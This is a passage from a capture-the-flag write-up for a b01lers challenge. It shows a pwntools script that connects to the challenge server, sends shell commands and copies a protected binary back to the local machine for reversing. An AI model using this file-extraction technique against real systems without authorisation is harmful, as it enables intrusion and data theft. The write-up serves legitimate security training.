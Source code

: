so how do we actually read the bytes now that we can read a file? m
```
> echo $v
```
Great! now we just need to get it locally so we can reverse it. Remember, dropping the quotes here on the variable v will clobber the bytes of our binary.

Luckily, we know that nc is just one way to connect to a server! Personally, I like to use [pwntools](https://docs.pwntools.com/en/latest/) to run exploits in an automated fashion so lets get a script running that will grab us the file: 
```python
from pwn import *
import binascii
import time

### set  for  challenge ###
context(arch = 'amd64', os = 'linux')
addr = "chal.ctf.b01lers.com"
port = 2007
### set  for  challenge ###

###other setup
context.terminal = ['tmux', 'splitw', '-h']
p = remote(addr,port)

## PWN:
CHAR = ""

def command(c):
    p.sendlineafter(CHAR, c)

def grab_file():
    tag=b"ENDDDDDDDDDDD"
    command(b"echo -n \"$(<.admin_check)\""+tag)
    byt = p.recvuntil(tag, drop=True)
    with open("test", "wb") as f:
        f.write(byt)

if __name__ == "__main__":
    #input char from shell
    CHAR = ">"
    #setup directory
    command("cd bin")
    #grab bin data
    grab_file()
```
What this script will do is connect to our remote service, input our commands to get the binary and read it in from over the remote process. pwntools is super nice for this as it allready manages all the in/out of the remote process and we can use it to read from super easyily. The trick is to tack on a tag at the eendof our reading so that we know once we've reached the end of the file. we want to make sure to set it to some really long string that won't be in the actual file. adding the drop in the recvuntil cuts out the flag from the input making clean code.
